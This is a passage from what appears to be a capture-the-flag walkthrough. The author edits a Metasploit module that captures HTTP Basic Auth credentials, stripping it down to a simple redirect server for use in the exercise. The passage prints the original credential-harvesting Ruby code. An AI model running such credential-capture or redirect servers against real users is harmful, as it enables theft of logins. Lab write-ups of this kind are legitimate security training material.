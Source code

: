 I’ll delete `report_creds` entirely. `on_request` is where I’ll do my
redirect. Currently, it looks like:

    
    
      def on_request_uri(cli, req)
        if(req['Authorization'] and req['Authorization'] =~ /basic/i)
          basic,auth = req['Authorization'].split(/\s+/)
          user,pass  = Rex::Text.decode_base64(auth).split(':', 2)
    
          report_cred(
            ip: cli.peerhost,
            port: datastore['SRVPORT'],
            service_name: 'HTTP',
            user: user,
            password: pass,
            proof: req['Authorization']
          )
    
          print_good("HTTP Basic Auth LOGIN #{cli.peerhost} \"#{user}:#{pass}\" / #{req.resource}")
          if datastore['RedirectURL']
            print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
            send_redirect(cli, datastore['RedirectURL'])
          else
            send_not_found(cli)
          end
        else
          print_status("Sending 401 to client #{cli.peerhost}")
          response = create_response(401, "Unauthorized")
          response.headers['WWW-Authenticate'] = "Basic realm=\"#{@realm}\""
          cli.send_response(response)
        end
      end
    

I don’t need the auth check, so I’ll reduce it to just do a redirect as long
as the `RedirectURL` is set:

    
    
      def on_request_uri(cli, req)    
        if datastore['RedirectURL']    
          print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")    
          send_redirect(cli, datastore['RedirectURL'])    
        else    
          send_not_found(cli)    
        end    
      end   
    

Other than that, I’ll just update the metadata and how the options are set.
The full script can be found [here](/files/jarmis-msf-mod.rb).

In MSF, I can exit and start it again, or run `reload_all` to get the new
module. It’s there:

    
    